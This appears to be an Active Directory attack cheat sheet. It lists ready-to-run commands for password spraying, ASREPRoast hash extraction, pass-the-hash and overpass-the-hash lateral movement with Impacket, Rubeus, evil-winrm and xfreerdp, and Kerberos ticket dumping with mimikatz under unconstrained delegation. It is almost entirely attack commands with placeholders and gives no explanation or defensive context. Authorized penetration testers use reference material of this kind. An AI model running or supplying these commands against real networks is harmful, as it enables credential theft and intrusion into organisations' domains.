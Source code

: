 ### Password spray

- Get password policy

	- crackmapexec <IP> -u 'user' -p 'password' --pass-pol
	- enum4linx -u 'username' -p 'password' -P <IP>

- cme smb <dc-ip> -u user.txt -p password.txt --no-bruteforce # test user=password
- cme smb <dc-ip> -u user.txt -p password.txt # multiple test (carrefull of lock policy)

### ASREPRoast

- Get hash

	- python GetNPUsers.py <domain>/ -usersfile <usernames.txt> -format hashcat -outputfile <hashes.domain.txt>
	- Rubeus asreproast /format:hashcat

- Get ASREPRoastable users

	- Get-DomainUser -PreauthNotRequired -Properties SamAccountName
	- MATCH (u:User {dontreqpreauth:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p

## Lateral move

### pass the hash

- psexec.py -hashes ":<hash>" <user>@<ip>
- wmiexec.py -hashes ":<hash>" <user>@<ip>
- atexec.py -hashes ":<hash>" <user>@<ip> "command"
- evil-winrm -i <ip>/<domain> -u <user> -H <hash>
- xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>

### overpass the hash / pass the key (PTK)

- python getTGT.py <domain>/<user> -hashes :<hashes>

	- export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache

		- python psexec.py <domain>/<user>@<ip> -k -no-pass

- Rubeus asktgt /user:victim /rc4:<rc4value>

	- Rubeus ptt /ticket:<ticket>
	- Rubeus createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]

		- Rubeus ptt /luid:0xdeadbeef /ticket:<ticket>

### Unconstrained delegation

- Get tickets

	- privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
	- Rubeus dump /service:krbtgt /nowrap
	- Rubeus dump /luid:0xdeadbeef /nowrap
